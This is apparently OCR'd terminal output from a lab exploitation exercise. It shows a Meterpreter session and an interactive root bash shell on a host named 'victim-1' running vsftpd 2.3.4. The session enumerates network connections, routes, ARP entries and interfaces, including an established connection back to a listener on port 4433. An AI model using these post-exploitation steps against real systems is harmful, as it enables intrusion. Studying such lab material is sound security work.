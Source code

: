 ```
IPv4 Address : 192.103.56.3
IPv4 Netmask : 255.255.255.0
```

```
meterpreter > netstat

Connection list
===============

    Proto  Local address       Remote address      State        User   Inode  PID/Program name
    -----  -------------       --------------      -----        ----   -----  ----------------
    tcp    127.0.0.11:34161    0.0.0.0:*           LISTEN       65534  0      
    tcp    0.0.0.0:21          0.0.0.0:*           LISTEN       0      0      
    tcp    0.0.0.0:6200        0.0.0.0:*           LISTEN       0      0      
    tcp    192.103.56.3:6200   192.103.56.2:39117  ESTABLISHED  0      0      
    tcp    192.103.56.3:48802  192.103.56.2:4433   ESTABLISHED  0      0      
    udp    127.0.0.11:52138    0.0.0.0:*                        65534  0      
```

```
meterpreter > route

IPv4 network routes
===================

    Subnet        Netmask        Gateway       Metric  Interface
    ------        -------        -------       ------  ---------
    0.0.0.0       0.0.0.0        192.103.56.1  0       eth0
    192.103.56.0  255.255.255.0  0.0.0.0       0       eth0

No IPv6 routes were found.
```

```
meterpreter > arp

ARP cache
=========

    IP address    MAC address        Interface
    ----------    -----------        ---------
    192.103.56.2  02:42:c0:67:38:02  
```

```
meterpreter > shell
Process 22 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:~/vsftpd-2.3.4# ifconfig
ifconfig
bash: ifconfig: command not found
root@victim-1:~/vsftpd-2.3.4# ip a s
ip a s
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
141414: eth0@if141415: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:67:38:03 brd ff:ff:ff:ff:ff:ff link-netnsid 0
```